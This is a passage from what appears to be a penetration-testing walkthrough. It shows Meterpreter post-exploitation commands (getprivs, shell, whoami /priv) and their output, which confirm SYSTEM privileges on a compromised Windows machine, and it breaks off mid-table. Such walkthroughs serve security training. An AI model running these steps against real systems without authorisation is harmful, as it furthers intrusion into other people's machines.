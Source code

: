 
### **Step 5: Verify Your New Powers**

**What We're Doing:** Testing our new SYSTEM privileges to confirm they work

#### **Commands Used:**
```bash
meterpreter > getprivs
meterpreter > shell
C:\Windows\system32>whoami /priv
```

#### **What Happened:**
```bash
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeAssignPrimaryTokenPrivilege
SeAuditPrivilege  
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreatePermanentPrivilege
SeCreateSymbolicLinkPrivilege
SeCreateTokenPrivilege
SeDebugPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeLockMemoryPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRelabelPrivilege
SeRemoteShutdownPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTcbPrivilege
SeTimeZonePrivilege
SeTrustedCredManAccessPrivilege
SeUndockPrivilege
SeUnsolicitedInputPrivilege

meterpreter > shell
Process 1234 created.
Channel 1 created.
C:\Windows\system32>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
```